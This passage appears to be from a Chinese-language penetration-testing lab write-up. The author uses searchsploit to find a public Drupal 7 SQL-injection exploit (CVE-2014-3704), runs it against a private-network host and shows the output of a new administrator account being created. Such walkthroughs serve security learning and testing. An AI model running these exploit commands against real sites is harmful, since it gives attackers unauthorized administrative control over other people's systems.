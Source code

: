 命令：searchsploit drupal

![21](https://havocykp.github.io/assets/images/img_blog3/21.png)

选用34992.py 尝试创建账户登陆

![22](https://havocykp.github.io/assets/images/img_blog3/22.png)

命令：

msf5 > python /usr/share/exploitdb/exploits/php/webapps/34992.py -t http://192.168.2.215 -u admin1 -p admin1

成功创建一个新的账户，使用 admin1/admin1可登陆后台

```javascript
root@kali:~# python /usr/share/exploitdb/exploits/php/webapps/34992.py -t http://192.168.2.215 -u admin1 -p admin1

  ______                          __     _______  _______ _____    
 |   _  \ .----.--.--.-----.---.-|  |   |   _   ||   _   | _   |   
 |.  |   \|   _|  |  |  _  |  _  |  |   |___|   _|___|   |.|   |   
 |.  |    |__| |_____|   __|___._|__|      /   |___(__   `-|.  |   
 |:  1    /          |__|                 |   |  |:  1   | |:  |   
 |::.. . /                                |   |  |::.. . | |::.|   
 `------'                                 `---'  `-------' `---'   
  _______       __     ___       __            __   __             
 |   _   .-----|  |   |   .-----|__.-----.----|  |_|__.-----.-----.
 |   1___|  _  |  |   |.  |     |  |  -__|  __|   _|  |  _  |     |
 |____   |__   |__|   |.  |__|__|  |_____|____|____|__|_____|__|__|
 |:  1   |  |__|      |:  |    |___|                               
 |::.. . |            |::.|                                        
 `-------'            `---'                                        
                                                                   
                                 Drup4l => 7.0 <= 7.31 Sql-1nj3ct10n
                                              Admin 4cc0unt cr3at0r

                          Discovered by:

                          Stefan  Horst
                         (CVE-2014-3704)

                           Written by:

                         Claudio Viviani

                      http://www.homelab.it

                         info@homelab.it
                     homelabit@protonmail.ch

                 https://www.facebook.com/homelabit
                   https://twitter.com/homelabit
                 https://plus.google.com/+HomelabIt1/
       https://www.youtube.com/channel/UCqqmSdMqf_exicCe_DjlBww


[!] VULNERABLE!

[!] Administrator user created!

[*] Login: admin1
[*] Pass: admin1
[*] Url: http://192.168.2.215/?q=node&destination=node
root@kali:~# 
```